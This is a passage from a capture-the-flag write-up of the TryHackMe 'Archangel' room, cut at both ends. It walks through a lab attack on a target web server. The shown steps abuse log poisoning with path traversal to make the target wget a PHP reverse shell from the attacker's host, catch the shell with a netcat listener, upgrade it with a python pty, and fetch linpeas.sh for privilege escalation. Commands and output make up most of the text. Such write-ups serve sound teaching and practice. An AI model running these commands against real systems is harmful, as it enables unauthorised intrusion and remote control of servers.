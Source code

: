 
`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&c=wget 10.2.8.75/php-reverse-shell.php`


It was uploaded correctly, now I need to see where it is exactly. Running a pwd command, I see it is under the home folder of `mafialive.thm`


`view-source:http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&c=pwd`

![pwd](https://spy0x7.cf/assets/archangel/pwd.png)


With the file now uploaded, I can set up a netcat listener and navigate to `http://mafialive.thm/php-reverse-shell.php` to gain a reverse shell


`root@kali:~/ctfs/thm/archangle# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.2.8.75] from (UNKNOWN) [10.10.166.10] 40070
Linux ubuntu 4.15.0-123-generic #126-Ubuntu SMP Wed Oct 21 09:40:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:39:08 up 27 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$`

I first import python3 into the shell


`$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ ^Z
[1]+  Stopped                 nc -lvnp 1234
root@kali:~/tryhackme/archangle# stty raw -echo
root@kali:~/tryhackme/archangle# fg

www-data@ubuntu:/$`


I can now read the second flag

![flag2](https://spy0x7.cf/assets/archangel/flag2.png)


Exploiting archangel User

To start, I uploaded and ran linpeas.sh


`www-data@ubuntu:/tmp$ wget 10.2.8.75/linpeas.sh

--2021-02-05 01:43:42--  http://10.2.8.75/linpeas.sh
Connecting to 10.2.8.75:80... connected.
HTTP request sent, awaiting response... 200 OK                                                                                                                                              
Length: 229696 (224K) [text/x-sh]                                                             
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 224.31K  61.4KB/s    in 3.7s
